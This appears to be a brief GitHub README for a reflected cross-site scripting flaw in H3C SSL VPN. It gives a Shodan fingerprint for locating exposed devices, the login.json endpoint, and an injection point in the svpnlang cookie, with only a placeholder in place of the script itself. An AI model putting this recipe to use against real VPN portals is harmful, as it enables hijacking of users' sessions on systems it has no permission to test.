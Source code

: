 # H3C_SSL_VPN_XSS

# Reflected XSS

# Shodan: http.html_hash:510586239

# Payload: 
    Access address：https://IP:PORT/wnm/login/login.json.
    Payload: Cookie: svpnlang=__XSS_PAYLOAD__
